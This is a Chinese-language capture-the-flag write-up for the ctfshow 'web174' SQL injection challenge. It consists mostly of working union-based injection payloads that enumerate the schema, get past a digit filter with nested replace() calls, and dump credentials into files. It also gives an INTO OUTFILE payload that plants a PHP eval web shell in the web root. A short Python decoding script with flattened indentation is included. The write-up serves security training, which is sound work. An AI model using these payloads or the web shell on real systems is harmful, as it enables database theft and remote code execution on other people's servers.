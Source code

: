 # web174
列数为2
'order by 2 --+
爆库
```
-1'union select database(),schema_name from information_schema.schemata --+
```
爆表
```
' union select database(),table_name from information_schema.tables where table_schema='ctfshow_web'--+
```
会没有回显,可能是因为返回结果有数字,被检测了ctfshow_user4
```
' union select database(),substr(table_name,1,12) from information_schema.tables where table_schema='ctfshow_web'--+
```
为13时没有回显,猜想是对的,如何取绕过呢?
如果直接爆字段是可以的,但是获取flag时还是会无法显示因为flag中也会有数字
参考网上的思路
1.替换结果中的数字
```
-1' union select 'a', replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(password,'0','a'),'1','b'),'2','c'),'3','d'),'4','e'),'5','f'),'6','g'),'7','h'),'8','i'),'9','j') from ctfshow_user4 where username ='flag' --+
逆转的脚本：

k="c_j__g_b_d__d__f_d-ae_h__e_-e__c__e__g-i__e_d_h-d_e_j_e_g__d__h__g_b_d__f__i"

c=len(k)

flag=""

i=0

while(i<c):

if(k[i]) != '_':

    flag=flag+k[i]

    i=i+1

else:

    flag=flag+ chr(ord(k[i+1])-49)

    i=i+3

print(flag)
```
2.写如木马,然后删除waf
```
-1' union select null,"<?php eval($_POST['cmd']);?>" into outfile "/var/www/html/1.php"--+
```
显示数据返回异常无所谓,只要能访问
![](vx_images/406405317090382.png)
删除waf-4的过滤
3.将查询结果生成到新文件中
```
1' union select username,password from ctfshow_user4 into outfile '/var/www/html/flag.txt' --+
```
![](vx_images/70217275478193.png)
4.读文件(获取数据库位置@@datadir)  
```
1' union select @@datadir,database() into outfile "/var/www/html/flag1.txt" --+
```
![](vx_images/72159085476147.png)
![](vx_images/529975995013280.png)
没有权限
